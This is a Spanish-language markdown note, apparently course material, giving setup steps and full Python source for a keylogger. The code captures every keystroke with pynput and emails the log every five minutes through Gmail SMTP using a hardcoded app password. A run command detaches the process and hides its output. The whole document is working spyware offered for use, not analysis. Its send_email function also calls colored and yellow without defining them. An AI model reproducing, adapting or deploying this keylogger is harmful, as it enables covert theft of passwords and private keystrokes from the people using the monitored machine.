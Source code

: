 # Requisitos
- Para empezar debes tener una cuenta de gmail y crear una contraseña de aplicación, luego instalar pynput.
```bash
pip3 install pynput
```

- Acceder a https://myaccount.google.com/apppasswords para crear contraseña de aplicación para tu cuenta google
![[Pasted image 20240628130101.png]]
- Una vez entres la tendrás activada (yxki jwbt ebfu khvc) la introduces sin espacios.
- Ejecución:
```bash
python3 main.py &> /dev/null & disown
```

# keylogger.py
```python
#! /usr/bin/env python3
import threading
import pynput.keyboard
import smtplib
from email.mime.text import MIMEText


class Keylogger:
	def __init__(self):
		self.log = ""
		self.request_shutdown = False
		self.timer = None
		self.is_first_run = True

	def pressed_key(self, key):
		try:
			self.log += str(key.char)	
		except AttributeError:
			special_keys = {key.space: " ", key.backspace:" Backspace ", key.enter: " Enter ", key.shift:" Shift ", key.alt:" Alt ", key.ctrl:" Ctrl ", key.alt:" Alt "}
			self.log += special_keys.get(key, f" {str(key)} ")
		# print(self.log)
	
	def send_email(self,subject, body, sender, recipients, password):
	    msg = MIMEText(body)
	    msg['Subject'] = subject
	    msg['From'] = sender
	    msg['To'] = ', '.join(recipients)
	    
	    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
	       smtp_server.login(sender, password)
	       smtp_server.sendmail(sender, recipients, msg.as_string())
	    print(colored(f"\n[+] Email sent Successfully!\n", yellow))

	def report(self):
		email_body = "[+] El keylogger se ha iniciado exitosamente" if self.is_first_run else self.log
		self.send_email("Keylogger Report", email_body, "email@gmail.com", ["email@gmail.com"], "yxkijwbtebfukhvc")
		self.log = ""

		if self.is_first_run:
			self.is_first_run = False

		if not self.request_shutdown:
			self.timer = threading.Timer(300, self.report)
			self.timer.start()

	def shutdown(self):
		self.request_shutdown = True
		if self.timer:
			self.timer.cancel()


	def start(self):
		keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
		
		with keyboard_listener:
			self.report()
			keyboard_listener.join()



```

# main.py
```python
#!/usr/bin/env python3
import signal
import sys
from termcolor import colored
from keylogger import Keylogger

def def_handler(sig, frame):
	print(colored(f"\n[!] Saliendo...\n", 'red'))
	my_keylogger.shutdown()
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	my_keylogger = Keylogger()
	my_keylogger.start()
```
